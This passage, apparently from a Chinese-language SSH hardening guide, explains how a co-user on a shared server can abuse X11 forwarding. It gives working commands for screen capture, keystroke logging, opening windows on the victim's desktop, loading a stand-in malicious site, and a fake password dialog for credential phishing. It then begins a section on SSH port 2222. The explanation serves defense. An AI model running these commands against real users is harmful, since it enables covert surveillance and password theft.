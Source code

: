 **A. 螢幕截圖竊取**
```bash
# 攻擊者可以截取受害者的本機螢幕
bob@company-server:~$ DISPLAY=localhost:10.0 xwd -root | xwud
# 這會顯示Alice本機桌面的截圖！
```

**B. 鍵盤記錄**
```bash
# 記錄受害者的按鍵
bob@company-server:~$ DISPLAY=localhost:10.0 xinput list
bob@company-server:~$ DISPLAY=localhost:10.0 xinput test [keyboard-id]
# 可以記錄所有鍵盤輸入，包括密碼
```

**C. 惡意程式執行**
```bash
# 在受害者的本機桌面開啟惡意程式
bob@company-server:~$ DISPLAY=localhost:10.0 xterm &
# 這會在Alice的本機開啟一個終端視窗！

# 甚至可以執行更危險的程式
bob@company-server:~$ DISPLAY=localhost:10.0 firefox --new-window "http://malicious-site.com" &
```

**D. 視窗劫持**
```bash
# 創建假的登入視窗來竊取憑證
bob@company-server:~$ DISPLAY=localhost:10.0 zenity --password --title="Session Expired - Re-enter Password"
```

### 攻擊流程示意：

```
[Alice的筆電] ←--SSH + X11--> [公司伺服器] ←--本機存取--> [惡意用戶Bob]
      ↑                           ↓
      |                      DISPLAY=localhost:10.0
      |                           ↓
   被劫持的顯示 ←-------------- 惡意X11命令
```

## 關於 port 2222

### 為什麼是 2222？

```bash
ufw allow from [trusted-IP] to any port 2222
```

**2222 的意義：**

1. **SSH預設端口是 22**
   ```bash
   # 預設SSH配置
   Port 22
   ```
